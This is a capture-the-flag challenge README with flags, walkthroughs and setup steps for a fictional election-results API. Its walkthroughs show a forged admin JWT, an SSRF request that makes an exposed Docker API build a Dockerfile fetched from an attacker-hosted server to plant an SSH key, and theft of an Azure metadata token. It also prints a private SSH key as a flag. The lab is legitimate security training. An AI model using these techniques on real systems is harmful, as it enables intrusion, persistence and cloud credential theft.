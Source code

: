 # vibe-management

**Author:** jacksimple

**Category:** *Web / Cloud*

## Description

We've setup a new API for managing access to our voting results. With a bit of vibe coding and Docker it couldn't have been easier to build and deploy. You can even take a look at the code if you like.

### Files

- [main.py](release_files/main.py)

### Host

`http://vibe-management.valverde.vote:8000`

## Part 1 

**CTFd name:** *vibe-management-1*

### CTFd Description
We update the active management key daily. Can you identify what today's key is (provide the GUID).

### Depends on
N/A - There's a "natural" sequence to do this, but it doesn't really matter.

### Flag

<details>
<summary>(expand to read)</summary><br>

`4dc15b91-77bf-4988-a596-57abc188657a`

</details>

### Walkthrough

<details>
<summary>(expand to read)</summary><br>

The `get_current_user` function uses `decode_jwt` to extract the user from the JWT, but does no validation. As a result, as long as you pass in a JWT that has a `sub` set as `admin` you can make a request to `http://10.0.2.21:8000/active-key` and get the flag:

`curl 'http://10.0.2.21:8000/active-key' --header 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJhZG1pbiIsImV4cCI6MTc0NDgxOTk5Mn0.q0Le38cRG8Jfw0hYFzbOISqj_Q_xmoh_XFXVvat-qSk' --header 'Content-Type: application/json'`

</details>

## Part 2

**CTFd name:** *vibe-management-2*

### CTFd Description
You've got the GUID, but what's the private key associated to it?

### Depends on
N/A 

### Flag

<details>
<summary>(expand to read)</summary><br>

```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACCxVXZ8b9KgQ43qXxK2R6AjdA9J/g/lE0k1VjKq7GOXbAAAAJjYS4cw2EuH
MAAAAAtzc2gtZWQyNTUxOQAAACCxVXZ8b9KgQ43qXxK2R6AjdA9J/g/lE0k1VjKq7GOXbA
AAAECxBAqmjbGnxBvADl7spoGOVTk4g4+y0YSuj1+5zr4pe7FVdnxv0qBDjepfErZHoCN0
D0n+D+UTSTVWMqrsY5dsAAAAEXVidW50dUBzaW1wbGUtZGV2AQIDBA==
-----END OPENSSH PRIVATE KEY-----
```

</details>

### Walkthrough

<details>
<summary>(expand to read)</summary><br>

There's a ton of different ways you can do this, but the main part is taking advantage of the SSRF that exists in the `fetch-url` functions and the fact that the [Docker API](https://docs.docker.com/reference/api/engine/version/v1.48/) is exposed (you can figure it out with a bit of recon, but there's also a small "hint" in the challenge description about using Docker). One of the things the Docker API lets you do is submit a build using a Dockerfile hosted at a URL. 

For example, this [Dockerfile](solve_files/Dockerfile) adds `ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIB0tRdrX0BD79m5Iq/ih3xXekXurvn7QLfssPE0vLjqs` to the `authorized_keys` file on the host, which will then let you SSH in.

To trigger the build you can make a request like the following:
```
curl 'http://10.0.2.21:8000/fetch-url-post?url=http%3A%2F%2F127%2E0%2E0%2E1%3A2375%2Fbuild%3Fremote%3Dhttp%3A%2F%2F10%2E10%2E10%2E2%3A9000%2FDockerfile%26networkmode%3Dhost%26nocache%3Dtrue%27'
```

Decoded:
```
curl 'http://10.0.2.21:8000/fetch-url-post?url=http://127.0.0.1:2375/build?remote=http://10.10.10.2:9000/Dockerfile&networkmode=host&nocache=true'
```

- `127.0.0.1:2375` - The Docker API
- `http://10.10.10.2:9000/Dockerfile` - Where the Dockerfile you want to build is hosted

Once you're on the host you can find the database [init script](server_files/init-scripts/01-create-tables.sql) (or connect to the Postgres database with the credentials used by `main.py`) and find the private key associated to `4dc15b91-77bf-4988-a596-57abc188657a`.

</details>

## Part 3

**CTFd name:** *vibe-management-3*

### CTFd Description
You've got the key, but can you prove you can access the results? What was the name of the candidate who had a vote count of `25000`?

### Depends on
N/A

### Flag

<details>
<summary>(expand to read)</summary><br>

`Gen. Ramon Esperanza`

</details>

### Walkthrough

<details>
<summary>(expand to read)</summary><br>

The big hint is here:
```python
    """
        Fetches content from the provided URL using GET method.
        Returns the content as plain text.
        TODO: Use this to grab: https://ntl2025vibemanagement.blob.core.windows.net/election-results/results.csv
        but for now we can just access that file with the managed identity from vpcadmin@10.0.2.22
    """
```

At this stage, you've got the private key so you can ssh into `vpcadmin@10.0.2.22`. The managed identity associated to `10.0.2.22` will give you access to `https://ntl2025vibemanagement.blob.core.windows.net/election-results/results.csv`.

You can get an access token like:

```bash
curl 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https%3A%2F%2Fstorage.azure.com%2F' -H Metadata:true
```

And then use it to fetch the file like this:
```bash
curl "https://ntl2025vibemanagement.blob.core.windows.net/election-results/results.csv" \
  -H "x-ms-version: 2017-11-09" \
  -H "Authorization: Bearer <access token here>"
```

Which will return:
```csv
Candidates,Vote Counts
Esteban de Souza,15000
Arius Perez,12000
Raphael Velasquez,18000
Gen. Ramon Esperanza,25000
Joel Plata,13500
Sofia da Silva,9000
Ana Paula Espinoza,16000
Vera Gomes,11000
Xavier Gonzalez,20000
Pedro Galeano,17500
```

</details>


## Setup instructions
1. Install Docker on the VM:
```bash
curl -fsSL https://get.docker.com -o get-docker.sh
sudo sh ./get-docker.sh
```

2. Create the `docker` group and add the user to it:
```bash
sudo groupadd docker
sudo usermod -aG docker $USER
```

3. Enable the `Docker` API:

    i. `sudo systemctl edit docker.service`

    ii. Add this to the top of the file:
    ```
    [Service]
    ExecStart=
    ExecStart=/usr/bin/dockerd -H fd:// -H tcp://127.0.0.1:2375
    ```

    iii. `sudo systemctl daemon-reload`
    
    iv. `sudo systemctl restart docker.service`

4. Copy over the [server_files](server_files) and do a `docker compose up`.
